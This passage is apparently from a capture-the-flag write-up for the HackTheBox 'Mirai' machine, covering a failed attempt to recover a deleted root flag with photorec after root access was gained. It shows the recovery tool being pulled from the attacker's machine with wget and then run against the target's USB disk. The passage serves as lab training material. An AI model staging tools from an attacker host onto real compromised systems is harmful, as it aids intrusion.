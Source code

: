 ## Recovering Root.txt w/ photorec - Failed
1. Recover the deleted file w/ `photorec` 
	- `photorec` - is a free and open-source utility software for data recovery with text-based user interface using data carving techniques, designed to recover lost files from various digital camera memory, hard disk and CD-ROM.
2. Install `photorec` on `mirai.htb`
	1. Download [`testdisk`](https://www.cgsecurity.org/testdisk-7.2-WIP.linux26.tar.bz2)
	2. Transfer to `mirai.htb`
		```
		root@raspberrypi:/tmp/testdisk# wget 10.10.14.14:9090/testdisk-7.2-WIP.linux26.tar.bz2
		```
	3. Unzip
		```
		root@raspberrypi:/tmp/testdisk# tar -xf testdisk-7.2-WIP.linux26.tar.bz2 
		```
	4. Copy `photorec_static` into `/usr/local/sbin`
		```
		root@raspberrypi:/tmp/testdisk/testdisk-7.2-WIP# cp photorec_static /usr/local/sbin/photorec
		```
	5. Make `testdisk` executable
		```
		root@raspberrypi:/tmp/testdisk/testdisk-7.2-WIP# chmod +x /usr/local/sbin/photorec
		```

2. Attempt to recover the deleted file w/ `photorec`
	1. Execute `photorec`
		```
		root@raspberrypi:/tmp/testdisk/testdisk-7.2-WIP# sudo photorec
		
		# Use arrow keys to navigate
		# Enter to select
		```
	2. Select `/dev/sdb`
	3. Select `UNKNOWN - WHOLE DISK`
	4. Select `ext2/ext3`
	5. Select directory to save the recovered file, browse to `/tmp`
		```
		# SHIFT + C to select directory
		```
		![]({{ page.img_path }}Pasted%20image%2020220916234605.png)
	6. View files in `recup_dir.1`, failed
		```
		root@raspberrypi:/tmp/recup_dir.1# ls -la
		total 8
		drwxr-xr-x  2 root root   80 Sep 16 15:45 .
		drwxrwxrwt 15 root root  400 Sep 16 15:45 ..
		-rw-r--r--  1 root root  129 Sep 16 15:45 f0016470.txt
		-rw-r--r--  1 root root 3175 Sep 16 15:45 report.xml
		root@raspberrypi:/tmp/recup_dir.1# cat f0016470.txt 
		Damnit! Sorry man I accidentally deleted your files off the USB stick.
		Do you know if there is any way to get them back?
		